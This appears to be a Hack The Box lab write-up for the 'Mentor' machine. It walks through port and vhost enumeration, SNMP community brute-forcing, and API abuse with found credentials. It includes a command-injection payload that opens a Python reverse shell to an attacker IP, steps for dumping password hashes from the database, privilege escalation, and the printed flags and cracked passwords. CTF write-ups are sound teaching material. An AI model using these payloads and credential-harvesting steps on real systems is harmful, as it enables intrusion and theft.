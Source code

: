 IP: 10.10.11.193
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/mentor 10.10.11.193

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

also a UDP and full port scan
```bash
sudo nmap -sU -oA nmap/udp 10.10.11.193 --min-rate 10000

sudo nmap -p- -oA nmap/all-ports 10.10.11.193
```

UDP port 161 is open, which is snmp

Host name: mentorquotes.htb

## Port 80
Flask application due to error page.

## Gobuster
```bash
gobuster -m dir -u http://mentorquotes.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o root.goubster
```

## VHOST
```bash
ffuf -u http://mentorquotes.htb -H 'Host: FUZZ.mentorquotes.htb' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 18 -mc all
```

Get a result for api

## API
Gives this page: `{"detail":"Not Found"}`. Which when googling shows its fastapi which has a docs page.

# Looking at the API
We can create a user with /auth/signup, then login and we get a JWT.

Can't do anything with the JWT, says admin is needed.

A username for james: `james@mentorquotes.htb`

# SNMP
```bash
snmpwalk -v2c -c public 10.10.11.193
```

Didn't show much

Bruteforcing with snmpbrute.py
```bash
python3 snmpbrute.py -t 10.10.11.193 -f /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt
```

Found internal string aswell

snmpwalk again.
```bash
snmpbulkwalk -v2c -c internal 10.10.11.193 | tee internal.snmpwalk
```

Looking for python files, as the website is made with flask.
```bash
cat internal.snmpwalk | grep '\.py'
```

Which gives a password.
```txt
kj23sadkj123as0-d213
```

Trying the as james' password works!
```JWT
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

# API as James
Enumerating users shows a svc account:
```json
{"id":2,"email":"svc@mentorquotes.htb","username":"service_acc"}
```

Trying `/admin` which works. (You could also fuzz with the authorization header if you dont fell like guessing)
```json
{"admin_funcs":{"check db connection":"/check","backup the application":"/backup"}}
```

backup is a POST req which has command injection.
```json
{
"path":"/etc/passwd; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.17\",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")';"
}
```

# Foothold
Inside a docker container.

Looking at the db.py script there are creds.
```
postgres:postgres
```

Going to change the api to show the passwords of the users when listing all users.

This can be done by updating the models.py file to include the password, as it is pulling in everything from the database.
```txt
class userDB(BaseModel):
    id: int
    email: str
    username: str
    password: str 
```

Then grabbing the hashes and reverting the file.
```
[{"id":1,"email":"james@mentorquotes.htb","username":"james","password":"7ccdcd8c05b59add9c198d492b36a503"},{"id":2,"email":"svc@mentorquotes.htb","username":"service_acc","password":"53f22d0dfa10dce7e29cd31f4f953fd8"},{"id":4,"email":"eljay@htb.com","username":"eljay","password":"7c6a180b36896a0a8c02787eeafb0e4c"}]
```

Cracking the svchash with crackstation
```
123meunomeeivani
```

# SSH as svc
User.txt
```txt
4eb83b8cc835e4bd7869e4bc23b50326
```

linpeas.sh

didn't show anything.

Check the snmp conf file.

This has a password in it, when trying it for james on the box it works.
```txt
SuperSecurePassword123__
```

# SSH as james
james can run sh as root.

root.txt
```
7e20d674abf66c03780e698fd0138993
```

Fin
